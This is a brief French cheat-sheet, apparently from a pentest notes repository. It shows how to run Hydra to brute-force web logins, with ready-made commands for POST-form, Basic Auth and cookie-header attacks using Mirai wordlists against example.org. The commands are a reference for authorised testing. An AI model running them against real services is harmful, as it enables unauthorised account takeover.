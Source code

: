 hydra
=====

Hydra est un logiciel permettant de tester l'authentification d'un service (bruteforce logins/mots de passe).

## Authentification par formulaire
Exemple pour un service web avec authentification par une méthode POST. Les noms des paramètres POST à passer sont `login`, `password` et `Submit` (qui est ici constant). Le message d'erreur contient `bad password` :
```
$ hydra -v -V -L /root/wordlists/metasploit/mirai_user.txt -P /root/wordlists/metasploit/mirai_pass.txt -s 80 example.org http-post-form "/login.php:login=^USER^&password=^PASS^&Submit=Login:bad password"
```

## Basic Auth
```
hydra -v -l admin -P /root/wordlists/passwords.txt <url> http-get /path_to_login_page
```

## Ajout header
Idem mais en ajoutant un header (des cookies dans cet exemple) :
```
$ hydra -v -V -L /root/wordlists/metasploit/mirai_user.txt -P /root/wordlists/metasploit/mirai_pass.txt -s 80 example.org http-post-form "/login.php:login=^USER^&password=^PASS^&Submit=Login:bad password:H=Cookie: PHPSESSID=dzefzefezfzefzefez; other_cookie=fzedcfzeqffc"
```
